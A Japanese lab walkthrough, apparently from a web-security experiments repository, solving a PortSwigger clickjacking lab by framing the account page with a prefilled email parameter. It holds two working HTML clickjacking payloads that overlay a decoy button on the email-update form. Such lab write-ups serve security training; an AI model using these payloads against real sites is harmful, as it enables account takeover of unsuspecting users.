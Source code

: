 # URL パラメーターから事前入力されたフォーム入力データによるクリックジャッキング

次のハッキングラボを実施します  
https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input  
このラボでは、「ラボ: CSRF トークン保護を使用した基本的なクリックジャッキング」の基本的なクリックジャッキングの例を拡張します。

- 1. 一般ユーザーでログインします
- 2. エクスプロイト サーバーに移動し、次の HTML テンプレートを Body セクションに貼り付けます。

```html
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }
  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

- 3. クリックジャッキングの位置をメールアドレス更新ボタンに合うように調整します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/61779d2e-c235-4468-9bd3-5fbc751933ac)

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.5;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 510px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://0a4c00db03faec16814fc34e0080000d.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

- 4. Store ボタンを押して、deliver exploit to victim ボタンを押します。
